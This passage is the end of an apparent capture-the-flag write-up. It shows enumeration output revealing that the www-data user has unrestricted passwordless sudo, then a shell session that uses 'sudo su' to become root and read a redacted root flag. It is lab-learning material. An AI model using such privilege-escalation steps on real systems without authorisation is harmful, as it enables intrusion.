 ```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                         
Matching Defaults entries for www-data on ubuntu:                                                                                                                        
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

So becoming root was pretty easy.

```bash
www-data@ubuntu:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
www-data@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
XXXXXXXXXXXXXXXXXXXX
```

And that's it. We got the root flag as well.

## Conclusion

That was a fun and interesting room. I brushed up my knowledge on DH Key Exchange and PHP Deserialization attack.

